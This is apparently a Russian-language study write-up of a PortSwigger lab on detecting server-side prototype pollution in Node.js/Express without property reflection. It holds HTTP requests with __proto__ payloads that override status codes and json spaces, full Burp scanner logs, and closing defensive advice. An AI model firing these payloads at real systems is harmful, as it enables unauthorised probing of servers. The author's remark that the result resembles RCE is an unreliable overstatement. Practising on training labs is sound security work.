



немного доп теории
##### Обнаружение загрязнения прототипа на стороне сервера без отражения загрязненных свойств

#### В чем проблема

Когда загрязняешь прототип на сервере, свойство чаще всего не возвращается в ответе. Посмотреть объект в консоли тоже нельзя. Нужно искать другие способы понять, сработала инъекция или нет.

#### Как это работает

Идея в том, чтобы подбирать такие свойства, которые влияют на поведение сервера. Если после инъекции поведение изменилось — значит прототип загрязнен.

#### Переопределение кода состояния

В Express можно переопределить статус ошибки через прототип.

Находишь запрос, который возвращает ошибку, например 403. Запоминаешь статус. Добавляешь в прототип свое свойство `status` с любым числом от 400 до 599. Отправляешь тот же запрос. Если статус изменился на твой — уязвимость есть.

Статус обязательно должен быть в диапазоне 400-599, иначе Node.js принудительно выставит 500 и ничего не поймешь.

#### Переопределение пробелов в JSON

Express позволяет управлять отступами в JSON через опцию `json spaces`.

По умолчанию она не задана. Добавляешь в прототип `"json spaces": 10` и смотришь на любой JSON-ответ. Если отступы увеличились до 10 пробелов — прототип загрязнен.

Метод безопасный, потому что можно вернуть все обратно, просто сбросив значение в ноль.

#### Переопределение кодировки

Через `body-parser` можно влиять на то, в какой кодировке парсится тело запроса.

Сначала отправляешь запрос с UTF-7 строкой, например `+AGYAbwBv-` (это foo). В ответе она придет как есть, потому что UTF-7 не используется по умолчанию.

Потом добавляешь в прототип `"content-type": "application/json; charset=utf-7"` и отправляешь тот же запрос. Если во втором ответе строка раскодировалась в foo — уязвимость есть.

Из-за бага в Node.js это работает даже если в запросе уже указана другая кодировка


---

лаба https://portswigger.net/web-security/prototype-pollution/server-side/lab-detecting-server-side-prototype-pollution-without-polluted-property-reflection
лаборатория построена на Node.js и Express Framework

ЛАБА НУЖНА ЧТОБЫ практиковать методы неразрушающего обнаружения !

и для решения лабы - нужно вызвать изменения в ответе сервера, то есть определить , что я могу управлять ответами сервера!

----



вот запрос при нажатии на ОТПРАВИТЬ
```http
POST /my-account/change-address HTTP/2
Host: 0a720085037c85c4804b12860095000f.web-security-academy.net
Cookie: session=w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo
Content-Length: 175
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a720085037c85c4804b12860095000f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a720085037c85c4804b12860095000f.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
"address_line_1":"Wiener HQ4",
"address_line_2":"4One Wiener Way4",
"city":"Wienervill4e",
"postcode":"BU1 1RP4",
"country":"44UK",
"sessionId":"w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo"
}
```

ориг ответ на этот ориг запрос  на 468 байт

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"cc-mQuxWJtkpyKsMOE3YbKQrS8Y8r0"
Date: Tue, 17 Mar 2026 07:16:14 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 204

{
"username":"wiener",
"firstname":"Peter",
"lastname":"Wiener",
"address_line_1":"Wiener HQ4",
"address_line_2":"4One Wiener Way4",
"city":"Wienervill4e",
"postcode":"BU1 1RP4",
"country":"44UK",

"isAdmin":false}
```

----

добавлю туда `"__proto__" :{"foo":"qwerty1417"}`

пейлоад
```json
{
"__proto__":{"foo":"qwerty1417"},
"address_line_1":"Wiener HQ4",
"address_line_2":"4One Wiener Way4",
"city":"Wienervill4e",
"postcode":"BU1 1RP4",
"country":"44UK",
"sessionId":"w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo"
}
```

в ответе все как в оригинале - без изменений

кстати, если длинну значения параметра "foo" увеличить в 100 раз, то ответ от сервера приходит позже.. что логично

но если убрать доп параметры, то ответ снова приходит быстро как обычно, то есть тот предыдущий запрос , возможно, не сильно вляет или не влияет вообще!

-----

делаю намеренно ошибку в пейлоаде
	пейлоад
```json

{
"__proto__":{"foo":"q",},  // ВОТ ЗДЕСЬ _ ДОП ЗАПЯТАЯ_
"address_line_1":"Wiener HQ4",
"address_line_2":"4One Wiener Way4",
"city":"Wienervill4e",
"postcode":"BU1 1RP4",
"country":"44UK",
"sessionId":"w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo"
}
```

ответ 500 Internal Server Error

с ошибкой парсинга внутри 
```json
{
"error":
{"expose":true,
"statusCode":400,
"status":400,

"body":"{\r\n\
"__proto__\":{\"foo\":\"q\",},
\r\n\"address_line_1\":\"Wiener HQ4\",
\r\n\"address_line_2\":\"4One Wiener Way4\",
\r\n\"city\":\"Wienervill4e\",
\r\n\"postcode\":\"BU1 1RP4\",
\r\n\"country\":\"44UK\",
\r\n\"sessionId\":\"w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo\"\r\n}"

,"type":"entity.parse.failed",
"foo":"q"}}
```

-------


попробую видоизменить statusCode

пейлоад
```json

{
"__proto__":{"statusCode":777,},  // ВОТ ЗДЕСЬ поставил левое значение
"address_line_1":"Wiener HQ4",
"address_line_2":"4One Wiener Way4",
"city":"Wienervill4e",
"postcode":"BU1 1RP4",
"country":"44UK",
"sessionId":"w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo"
}
```

ответ обычный как всегда

теперь снова туже ошибку вызову
пейлоад
```json

{
"__proto__":{"foo":"q",},  // ВОТ ЗДЕСЬ _ ДОП ЗАПЯТАЯ_
"address_line_1":"Wiener HQ4",
"address_line_2":"4One Wiener Way4",
"city":"Wienervill4e",
"postcode":"BU1 1RP4",
"country":"44UK",
"sessionId":"w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo"
}
```

и вот ответ
```json
{"error":
{"expose":false,"statusCode":500,"status":500,

"body":"{\r\n\"__proto__\":{\"foo\":\"q\",}, \r\n\"address_line_1\":\"Wiener HQ4\",\r\n\"address_line_2\":\"4One Wiener Way4\",\r\n\"city\":\"Wienervill4e\",\r\n\"postcode\":\"BU1 1RP4\",\r\n\"country\":\"44UK\",\r\n\"sessionId\":\"w1daRusiyH4zsDqJLJqxl2ZoFtaWSElo\"\r\n}",

"type":"entity.parse.failed","foo":"q"}}
```

вуаля, смотрим сюда, до этого ошибка была  400 и 400
`"expose":true, "statusCode":400, "status":400,`

а теперь стала 500 ии 500
`{"expose":false,"statusCode":500,"status":500,`

#### лаба решена!
то есть я смог повлять на работу серверной части, значит внес свою сущность туда!

я перепробовал и еще несколько пейлоадов, и вижу что ответы всегда теперь содержат мой "foo":"q" - то есть моя сущьность внедрислась в код сервера, это уже похоже на RCE

----

## пробую тоже самое сделать, no через  расширение **Server-Side Boide Pollution Scanner** из BApp Store

установил  расширение  в бурпе **Server-Side Boide Pollution Scanner** 

вот так можно запустить одну из нагрузок

```c
Body scan

Body dot scan

Body square scan

Param scan

Param dot scan

Param square scan

Add js property scan

JS property param scan

Async body scan

Async param scan

Full scan
```



Сканер применяет несколько методов для детекта [](https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8)[](https://portswigger.net/blog/server-side-prototype-pollution-scanner):

- **JSON spaces** — изменение отступов в JSON-ответах
    
- **Async** — асинхронное обнаружение через `--inspect`
    
- **Status** — переопределение кодов статуса ошибок
    
- **Options** — работа с опциями конфигурации
    
- **Blitz** — специфичная техника для фреймворка Blitz
    
- **Exposed headers** — управление заголовками ответов
    
- **Reflection** — поиск отраженных свойств
    
- **Non reflected property** — обнаружение без отражения свойств
----
# РЕЖИМЫ СКАНЕРА

  

|Режим сканирования|Что делает|Когда использовать|
|---|---|---|
|**Body scan**|Сканирует JSON-тела запросов основными методами|Если запрос содержит JSON в теле|
|**Body dot scan**|Сканирует JSON-тела, используя синтаксис с точкой (`__proto__.x`)|Для проверки альтернативных векторов|
|**Body square scan**|Сканирует JSON-тела, используя синтаксис с квадратными скобками (`__proto__[x]`)|Для проверки альтернативных векторов|
|**Param scan**|Сканирует JSON внутри параметров запроса (query params)|Если уязвимость может быть через параметры URL|
|**Param dot scan**|Сканирует JSON в параметрах через синтаксис с точкой|Для альтернативных векторов в параметрах|
|**Param square scan**|Сканирует JSON в параметрах через синтаксис с квадратными скобками|Для альтернативных векторов в параметрах|
|**Add js property scan**|Ищет утечки JS-кода, добавляя параметры вроде `constructor`|Для обнаружения отраженных свойств|
|**JS property param scan**|Ищет утечки JS-кода через манипуляции с параметрами|Для обнаружения отраженных свойств|
|**Async body scan**|Асинхронно ищет prototype pollution через флаг `--inspect` в теле запроса|Для обнаружения RCE-векторов|
|**Async param scan**|Асинхронно ищет prototype pollution через флаг `--inspect` в параметрах|Для обнаружения RCE-векторов|
|**Full scan**|Пробует все методы последовательно|Когда не знаешь, что искать|
ЗАПУСТИЛ ФУЛ СКАНЕР!
ОН НАШЕЛ УЯЗВИМОСТЬ
сканер пишет мне что нашел уязвимость
`Server-Side Prototype Pollution was found on this web site`




вот полный отчет
```q
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE","__proto__":{"status":510}}
======================================
POST /my-account/change-address HTTP/2
Host: 0a120060032d83a482ea518400f100bd.web-security-academy.net
Cookie: session=m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE
Content-Length: 1
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
======================================
POST /my-account/change-address HTTP/2
Host: 0a120060032d83a482ea518400f100bd.web-security-academy.net
Cookie: session=m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE
Content-Length: 193
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE","__proto__":{"status":0}}
======================================
POST /my-account/change-address HTTP/2
Host: 0a120060032d83a482ea518400f100bd.web-security-academy.net
Cookie: session=m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE
Content-Length: 1
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
======================================


🍺🍺🍺🍺🍺🍺


Doing JSON Body spacing __proto__ attack
Found issue: Server side prototype pollution via JSON spacing
Target: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Server-Side Prototype Pollution was found on this web site. Using the technique spacing __proto__. It seems possible to alter the JSON spacing of a response using prototype pollution.
🏆 Evidence: 🍺🍺🍺🍺🍺🍺  👈  ниже идет ориг запрос и потом запросы с пейлоадами!
======================================
POST /my-account/change-address HTTP/2
Host: 0a120060032d83a482ea518400f100bd.web-security-academy.net
Cookie: session=m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE
Content-Length: 168
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE"}
======================================
POST /my-account/change-address HTTP/2
Host: 0a120060032d83a482ea518400f100bd.web-security-academy.net
Cookie: session=m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE
Content-Length: 200
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE","__proto__":{"json spaces":" "}}
======================================
POST /my-account/change-address HTTP/2
Host: 0a120060032d83a482ea518400f100bd.web-security-academy.net
Cookie: session=m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE
Content-Length: 199
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE","__proto__":{"json spaces":""}}
======================================
POST /my-account/change-address HTTP/2
Host: 0a120060032d83a482ea518400f100bd.web-security-academy.net
Cookie: session=m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE
Content-Length: 168
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a120060032d83a482ea518400f100bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120060032d83a482ea518400f100bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE"}
======================================

🍺🍺🍺🍺🍺🍺🍺🍺🍺🍺🍺🍺 тут ОТЧЕТ

Doing JSON Body exposedHeaders __proto__ attack
Queueing reuest scan: Body dot scan
--Running Body dot scan--
Doing JSON Body spacing  __proto__ attack
Doing JSON Body exposedHeaders  __proto__ attack
Doing JSON Body status  __proto__ attack
Doing JSON Body options  __proto__ attack
Queueing reuest scan: Body square scan
--Running Body square scan--
Doing JSON Body options __proto__ attack
Doing JSON Body status __proto__ attack
Doing JSON Body spacing __proto__ attack
Doing JSON Body exposedHeaders __proto__ attack
Queueing reuest scan: Param scan
Queueing reuest scan: Param dot scan
Queueing reuest scan: Param square scan
Queueing reuest scan: Add js property scan
Queueing reuest scan: JS property param scan
Queueing reuest scan: Async body scan

--Running async body scan--

Queueing reuest scan: Async param scan
Completed request with key https0a120060032d83a482ea518400f100bd.web-security-academy.netPOST/my-account/change-address: 2 of 2 in 4 seconds with 84 requests 🍺🍺🍺🍺🍺🍺

```


в отчете есть результат  Evidence - то есть ДОКАЗАТЕЛЬСТВА
и описание уязвимости
```c
Server-Side Prototype Pollution was found on this web site. Using the technique spacing __proto__. It seems possible to alter the JSON spacing of a response using prototype pollution.
```
и сам пейлоад 
ориг - сканер использовал его для сравнния
```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE"}
```

потом идет с пробелами
```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"m7XnvbYhJpyv6XggtpXosuOJ6EczYbbE","__proto__":{"json spaces":" "}}
```

и так как ответы на них разные 

-----
#### выводы

внедрил вредоносный пейлоад ` "__proto__":{"foo":"q",},` но ответ сервера не изменился

вызвав ошибку парсинга json `"__proto__":{"foo":"q",},` - я получит "отчет" об ошибке в ответе от сервера, и в этой ошибке был мой параметр foo , то есть отражение появилось! красота!

далее я взял парметр statusCode из ответа и переназначил его, и снова вызвал ошибку, ответ был 200 обычный, но как только я по новой вызвал ошибку синтаксиса, то в отчете об ошибке я увидел что statusCode поменялся с 400 на 500, ну + там был параметр foo

короче говоря- удалось внедрить свой код туда на сервер, и  он там сохранился!

#### защита

во-первых, нужно удалять ключи `__proto__`, `constructor` и `prototype` из пользовательского ввода до мержа с внутренними объектами

во-вторых, замораживать прототипы через `Object.freeze(Object.prototype)` в самом начале работы приложения

в-третьих, использовать `Object.create(null)` для создания объектов без прототипа или `Map`вместо обычных объектов

в-четвертых, регулярно обновлять зависимости, особенно Express и body-parser

